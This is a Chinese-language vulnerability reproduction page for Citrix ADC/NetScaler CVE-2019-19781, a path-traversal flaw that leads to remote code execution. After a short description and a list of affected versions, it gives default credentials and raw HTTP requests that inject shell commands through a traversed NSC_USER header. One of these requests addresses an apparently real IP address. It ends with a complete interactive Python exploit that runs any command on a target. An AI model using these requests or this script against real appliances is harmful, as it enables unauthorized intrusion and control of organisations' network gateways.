


Citrix 远程命令执行漏洞 CVE-2019-19781¶
漏洞描述¶
Citrix ADC（NetScalers）中的目录穿越错误，这个错误会调用perl脚本，perl脚本用于将XML格式的文件附加到受害计算机，因此产生远程执行代码。
漏洞影响¶
Citrix NetScaler ADC and NetScaler Gateway version 10.5
Citrix ADC and NetScaler Gateway version 11.1 , 12.0 , 12.1
Citrix ADC and Citrix Gateway version 13.0
漏洞复现¶
访问 https://target-ip 或 http://target-ip登录系统，默认用户和密码登录：nsroot/nsroot。
利用目录穿越写入命令语句到newbm.pl文件中：
POST /vpns/portal/scripts/newbm.pl HTTP/1.1
Host: target-ip
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.23.0
NSC_NONCE: nsroot
NSC_USER: ../../../netscaler/portal/templates/15ffbdca
Content-Length: 89
url=http://example.com&title=15ffbdca&desc=[% template.new('BLOCK' = 'print `whoami`') %]

GET方式访问写入的xml文件：
GET /vpns/portal/15ffbdca.xml HTTP/1.1
Host: 50.202.211.151
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.23.0
NSC_NONCE: nsroot
NSC_USER: nsroot

漏洞EXP¶
#!/usr/bin/env python
# https://github.com/mpgn/CVE-2019-19781
# # #
import requests
import string
import random
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
print("CVE-2019-19781 - Remote Code Execution in Citrix Application Delivery Controller and Citrix Gateway")
print("Found by Mikhail Klyuchnikov")
print("")
if len(sys.argv) < 2:
print("[-] No URL provided")
sys.exit(0)
while True:
try:
command = input("command > ")
random_xml = ''.join(random.choices(string.ascii_uppercase + string.digits, k=12))
print("[+] Adding bookmark", random_xml + ".xml")
burp0_url = sys.argv[1] + "/vpn/../vpns/portal/scripts/newbm.pl"
burp0_headers = {"NSC_USER": "../../../../netscaler/portal/templates/" +
random_xml, "NSC_NONCE": "c", "Connection": "close"}
burp0_data = {"url": "http://exemple.com", "title": "[%t=template.new({'BLOCK'='print `" + str(command) + "`'})%][ % t % ]", "desc": "test", "UI_inuse": "RfWeb"}
r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data,verify=False)
if r.status_code == 200:
print("[+] Bookmark added")
else:
print("\n[-] Target not vulnerable or something went wrong")
sys.exit(0)
burp0_url = sys.argv[1] + "/vpns/portal/" + random_xml + ".xml"
burp0_headers = {"NSC_USER": "../../../../netscaler/portal/templates/" +
random_xml, "NSC_NONCE": "c", "Connection": "close"}
r = requests.get(burp0_url, headers=burp0_headers,verify=False)
replaced = re.sub('^&#.* $', '', r.text, flags=re.MULTILINE)
print("[+] Result of the command: \n")
print(replaced)
except KeyboardInterrupt:
print("Exiting...")
break